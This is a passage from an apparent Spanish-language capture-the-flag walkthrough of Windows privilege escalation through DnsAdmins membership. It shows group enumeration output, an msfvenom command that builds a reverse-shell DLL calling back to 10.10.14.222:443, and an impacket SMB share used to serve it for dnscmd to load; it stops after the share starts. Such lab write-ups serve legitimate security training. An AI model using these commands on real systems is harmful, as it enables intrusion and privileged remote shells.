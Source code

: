 ```bash
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

>El grupo "DnsAdmins" es un grupo de seguridad en los sistemas operativos Windows que tiene privilegios especiales para administrar y realizar cambios en el servicio de DNS (Domain Name System). Este grupo se utiliza específicamente para delegar ciertos privilegios de administración sobre la infraestructura de DNS a usuarios o administradores específicos en un entorno de red.

- Como tal nosotros formamos parte del Grupo **Contractors** y ese grupo forma parte del grupo **DnsAdmins**.

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> net localgroup DnsAdmins
Alias name     DnsAdmins
Comment        DNS Administrators Group

Members

-------------------------------------------------------------------------------
Contractors
The command completed successfully.
```

- Lo que vamos a hacer es crear un `dll` malicioso para que cargue una `ddl` maliciosa cuando se inicie el servicio y cuando lo arranque obtener una reverse shell privilegiada <https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/>.

- Vamos a usar `dnscmd` para que en el arranque del servicio `dns` carge nuestro `ddl` malicioso que crearemos con `msfvenom`.

```bash
➜  content msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.222 LPORT=443 -f dll -o zi.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: zi.dll
```

- Ahora vamos a usar `smbserver` para compartir el recurso por **smb**.

```bash
➜  content impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
